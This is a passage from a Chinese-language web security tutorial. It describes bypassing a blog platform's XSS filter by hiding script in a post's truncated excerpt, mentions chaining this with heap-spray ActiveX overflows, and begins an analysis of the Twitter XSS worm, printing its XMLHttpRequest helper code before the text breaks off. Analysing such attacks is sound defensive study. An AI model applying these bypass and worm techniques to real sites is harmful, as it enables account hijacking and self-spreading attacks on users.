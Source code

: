  ![](img/187f73af064527f28815243f199f8438.jpg)
                 图 19
很显然，处于省略点的 XSS 语句并没有经过过滤，这样我们就绕过了它的字符过滤保护！但是如果我们打开这篇博文并不能实现跨站，只有 XSS 语句处于省略部分时才可达到以上效果。Blogcn 上面还有许多处 XSS 漏洞，但感觉这处的利用方法比较有趣，就提出来与大家分享。虽然这并不是真正意义上的溢出攻击，但如果你嵌入的真正用于溢出某 ActiveX 控件的代码，比如使用 heap spray 技术等等，还有之前出现的 IE iframe 溢出漏洞，利用这些漏洞也是可以实现真正意义上的溢出攻击的。

**六、XSS Worm**
随着 WEB2.0 时代的到来，而 Ajax 就是 WEB2.0 的标志性技术。AJAX 即“Asynchronous JavaScript and XML”（异步 JavaScript 和 XML)，AJAX 并非缩写词，而是由 Jesse James Gaiiett 创造的名词，是指一种创建交互式网页应用的网页开发技术。Ajax 的出现为 XSS 蠕虫的发展提供的很大的便利，也因此加速了 xss worm 技术的传播。这里我们就以之前爆发的 Twitte 蠕虫为例进行分析，这个 XSS worm 之前在我的博客上也有提到（）。该跨站漏洞主要出现在"Settings" 菜单下的 "Name"文本域以及"More info URL"文本域，是由一位来自美国纽约的 17 岁小伙子写的，当时他花了 2 小时就全搞定了。其源码分析如下：
代码:

```cpp
function XHConn()
{
  //创建 XMLHttpRequest 对象
  var xmlhttp, bComplete = false;
  //由于 Internet Explorer 浏览器使用 MSXML 解析器处理 XML，而且 MSXML 实际上有两种不同的版本，因此采用以下两种方式创建对象
  try { xmlhttp = new ActiveXObject("Msxml2.XMLHTTP"); }         
  catch (e) { try { xmlhttp = new ActiveXObject("Microsoft.XMLHTTP"); }
  //下面是针对非 IE 浏览器（包括 Mozilla、Firefox、Safari、Opera……）来创建 XMLHttpRequest 对象
  catch (e) { try { xmlhttp = new XMLHttpRequest(); }
  catch (e) { xmlhttp = false; }}}
  if (!xmlhttp) return null;    //若 XMLHttpRequest 对象创建失败则返回 NULL
  this.connect = function(sURL, sMethod, sVars, fnDone) //创建连接回调函数
  {
    if (!xmlhttp) return false;
    bComplete = false;
    sMethod = sMethod.toUpperCase();    //将发送方式转换为大写字母，即 GET 或 POST
    try {
      if (sMethod == "GET")
      {
        xmlhttp.open(sMethod, sURL+"?"+sVars, true);    //以异步连接的方式配置 GET 请求
        sVars = "";
      }
      else
      {
        xmlhttp.open(sMethod, sURL, true);
                //配置请求头数据
        xmlhttp.setRequestHeader("Method", "POST "+sURL+" HTTP/1.1");
        xmlhttp.setRequestHeader("Content-Type",
          "application/x-www-form-urlencoded");
      }
          //设置每次请求的就绪状态发生变化时调用的回调函数
      xmlhttp.onreadystatechange = function(){
        if (xmlhttp.readyState == 4 && !bComplete)      //当响应已完成
        {
          bComplete = true;
          fnDone(xmlhttp);      //当服务器响应时就会调用回调函数 fnDone(),不过这里没有给出此函数
```